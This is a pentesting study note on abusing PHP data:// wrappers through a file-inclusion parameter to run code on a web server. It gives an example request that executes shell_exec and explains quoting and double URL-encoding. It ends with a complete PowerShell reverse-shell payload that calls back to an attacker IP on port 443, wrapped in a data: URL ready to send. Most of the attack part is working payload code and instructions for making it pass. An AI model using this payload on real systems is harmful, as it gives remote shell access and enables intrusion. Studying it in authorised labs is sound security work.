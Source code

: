 ## PHP Wrappers

### Data Wrapper

Usage:  `data:TYPE,DATA`

Data wrappers can be used instead of having to reference an actual file.  Embed inline data as part of the URL with plaintext or Base64 encoding.  This allows for alternative payload without having to store anything.  Specify the TYPE, such as `text/plain` or  `text/plain;base64`.  

You can think of this as being treated like a reference to a file, except you are supplying the file in the URL.  PHP code could also be inserted here since it will be process as if it were in a file.  It's more similar to LFI since it executes whatever code has been submitted to it.

Example:  

```html
http://192.168.216.10/menu.php?file=data:text/plain,<?php echo shell_exec('cd') ?>
```

#### Quotes

- Double-quotes - PHP will render the code inside the quotes, meaning it will interpret special characters like `&`.
- Single-quotes - PHP will interpret everything inside literally EXCEPT for another single quote `'` and the plus sign `+`.  You must escape double-quotes and replace plus signs with HTML encoding `%2B`.

#### Escaping Characters

This was a painful lesson, but you need to carefully consider the order of how things are interpreted here.   Note: the double-encoding may not be necessary if using curl.

1. The browser will first render your code, interpreting all the % characters into their appropriate characters.
2. The browser passes this rendered code to PHP, which will do its own rendering.  PHP interprets some characters the same way as the browser, so that means some characters may need to be encoded twice, like plus signs (+).
3. Finally, PHP will pass it's rendered code onto any third party processes, like the command line or PowerShell.  So if you need a + to be passed to PowerShell, it must be encoded twice or it will be replaced with a space.

For example, to pass the Powershell Reverse Shell code, there are two issues that you will have:  (1) the single quotes inside the command and (2) the plus signs (+) in the command.  

1. You need to enclose your entire Powershell command in single quotes like this:  `data:text/plain,<?php echo shell_exec('PS_REVERSE_CMD_HERE') ?>`
2. You need to use the backslash to escape all the single quotes INSIDE the PS command.  Be sure you don't accidentally escape the single quotes that are around the Powershell command.
3. You need to REPLACE any plus characters (+) with the HTML code `%2B` which will allow it to pass through PHP.  You may think that encoding the entire string as a URL will do this for you, and it does, but you need it encoded twice.  As described above, if you only encode it once, then the browser will see the %2B, decode that as a + and pass it on to PHP, which will then replace it with a space, and pass it on to Powershell, which causes an error.  If you encode it twice, then the browser will decode it to %2B first, then pass that to PHP, which decodes it as a + and passes it to Powershell.
4. Finally you encode everything from the word "data:text/plain....." to  the end as a URL, which will do the necessary replacement of characters  with % HTML notation.

The unencoded code is shown below:

```php
data:text/plain,<?php echo shell_exec('powershell -c "$client = New-Object System.Net.Sockets.TCPClient(\'192.168.119.216\',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback %2B \'PS \' %2B (pwd).Path %2B \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"') ?>
```

More Wrappers:  https://www.php.net/manual/en/wrappers.php

